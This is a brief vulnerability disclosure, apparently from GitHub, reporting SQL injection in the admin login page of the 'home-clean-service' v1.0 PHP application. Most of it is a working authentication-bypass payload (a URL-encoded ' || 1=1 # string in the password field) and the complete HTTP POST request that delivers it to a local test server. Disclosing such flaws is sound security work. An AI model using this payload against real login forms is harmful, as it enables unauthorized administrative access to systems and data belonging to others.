 # home-clean-service v1.0 has SQL injection

vendors: https://www.sourcecodester.com/php/15293/home-clean-service-free-source-code.html

Date: 2022-05-07

Vulnerability File: /hcs/public_html/admin/login.php

Vulnerability location:/hcs/public_html/admin/login.php, password

[+] Payload: 1%27+%7C%7C+1%3D1+%23

Tested on Windows 10, XAMPP

```
POST http://192.168.2.106/hcs/public_html/admin/login.php HTTP/1.1
Host: 192.168.2.106
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 52
Origin: http://192.168.2.106
Connection: keep-alive
Referer: http://192.168.2.106/hcs/public_html/admin/index.php
Upgrade-Insecure-Requests: 1

username=admin&password=1%27+%7C%7C+1%3D1+%23&login=
```

![](https://github.com/mikeccltt/badminton-center-management-system/blob/main/sql.gif?raw=true)

